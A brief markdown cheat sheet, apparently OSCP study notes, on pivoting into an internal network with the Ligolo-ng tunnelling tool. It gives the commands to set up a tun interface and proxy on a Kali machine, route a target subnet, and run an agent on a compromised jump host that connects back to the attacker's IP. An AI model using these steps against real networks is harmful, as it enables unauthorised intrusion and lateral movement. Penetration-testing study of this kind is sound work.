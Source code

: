 ## Pivoting with Ligolo-ng 
 
##### Create & start tun interface 
```
ip tuntap add user kali mode tun ligolo
ip link set ligolo up
```
##### Start Ligolo C2/Proxy 
```
./proxy -self-cert
```
#### Add Route to Target Network 
```
ip route list
sudo ip route add 10.10.23.0/24 dev ligolo
```
#### On Target/Jump Host 
```
agent.exe -connect 192.168.119.133:11601 -ignore-cert
```



#### Choose Session & Start Tunnel 
```
session
1
start
```
![image](https://github.com/GwenBSec/OSCP/assets/88676386/9880c83a-0e78-4f5a-9ddb-bd6625b01874)

